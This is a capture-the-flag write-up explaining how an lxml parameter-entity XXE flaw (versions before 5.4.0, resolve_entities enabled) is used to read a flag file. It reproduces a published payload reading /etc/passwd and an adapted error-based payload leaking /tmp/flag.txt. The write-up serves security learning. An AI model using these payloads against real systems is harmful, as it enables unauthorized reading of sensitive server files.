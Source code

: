 If we can exploit an XXE vulnerability to read `flag.txt`, we'll need to either:

-   Somehow render the contents as colour codes
-   Trigger an exception that leaks the contents via an error

### XXE in lxml library

Remember when we reviewed the source code and made a note to check for known vulnerabilities in the `lxml` library? Well, version `5.4.0` was released [~6 weeks ago](https://github.com/lxml/lxml/releases/tag/lxml-5.4.0). Why wouldn't Pwnii include the latest version? 🧐

Let's check out the "bugs fixed" section in the release notes.

> LP#2107279: Binary wheels use libxml2 2.13.8 and libxslt 1.1.43 to resolve several CVEs.
> (Binary wheels for Windows continue to use a patched libxml2 2.11.9 and libxslt 1.1.39.)
> Issue found by Anatoly Katyushin, see https://bugs.launchpad.net/lxml/+bug/2107279

Reviewing the link reveals some key information about versions `5.0.0` through `5.3.2`.

> lxml lib from 5.0.0 restricts XXE parsing and requires resolve_entities to disable the restriction

However..

> libxml doesn't restrict Parameter Entities, that leads to XXE:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE msg [
	<!ENTITY % a '
		<!ENTITY &#x25; file SYSTEM "/etc/passwd">
		<!ENTITY &#x25; b "<!ENTITY c &#x27;&#x25;file;&#x27;>">
	'>
	%a;
	%b;
]>
<msg>&c;</msg>
```
{% endcode %}

The challenge meets both conditions:

-   Using `lxml < 5.4.0`
-   `resolve_entities` is set to `True`

### Error-based data exfiltration

Can we do something similar? Let's try and swap out the values.

{% code overflow="wrap" %}
```xml
<!DOCTYPE colors [
	<!ENTITY % a '
		<!ENTITY &#x25; file SYSTEM "file:///tmp/flag.txt">
		<!ENTITY &#x25; b "<!ENTITY c SYSTEM &#x27;meow://&#x25;file;&#x27;>">
	'>
	%a;
	%b;
]>
<colors><color>&c;</color></colors>
```
{% endcode %}
